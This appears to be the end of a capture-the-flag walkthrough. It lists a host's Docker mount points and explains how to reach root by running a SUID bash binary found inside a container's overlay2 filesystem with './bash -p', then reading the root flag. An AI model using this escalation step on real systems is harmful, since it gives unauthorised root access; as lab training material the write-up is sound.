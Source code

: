 ```vim
├─/run                                tmpfs       tmpfs       rw,nosuid,nodev,noexec,relatime,size=402608k,mode=755
│ ├─/run/lock                         tmpfs       tmpfs       rw,nosuid,nodev,noexec,relatime,size=5120k
│ ├─/run/docker/netns/4987dee457c0    nsfs[net:[4026532599]]
│ │                                               nsfs        rw
│ ├─/run/user/1000                    tmpfs       tmpfs       rw,nosuid,nodev,relatime,size=402608k,mode=700,uid=1000,gid=1000
│ └─/run/docker/netns/84a518491621    nsfs[net:[4026532660]]
│                                                 nsfs        rw
├─/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
│                                     overlay     overlay     rw,relatime,lowerdir=/var/lib/docker/overlay2/l/756FTPFO4AE7HBWVGI5TXU76FU:/var/lib/docker/overlay2/l/XKE4ZK5GJUTHXKVYS4MQMJ3NOB:/var/lib/docker/overlay2/l/3JPYTR54WWK2EX6DJ7
├─/var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
│                                     shm         tmpfs       rw,nosuid,nodev,noexec,relatime,size=65536k
├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
│                                     overlay     overlay     rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM6X4BLW7GXAJOAA4SJ:/var/lib/docker/overlay2/l/Z4RNRWTZKMXNQJVSRJE4P2JYHH:/var/lib/docker/overlay2/l/CXAW6LQU6QOKNSSNUR
└─/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
                                      shm         tmpfs       rw,nosuid,nodev,noexec,relatime,size=65536k
```

There are 2 overlay2 subdirectories, either of which can contain the SUID `bash` executable (for me, it was `/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged`). Go to the `bin` subdirectory and execute the SUID `bash` with `./bash -p` (You can also execute it with the full path, DO NOT execute it like `bash -p` as it will execute the `bash` executable in your PATH which does NOT have SUID permission)

Root flag can be found in `/root/root.txt`
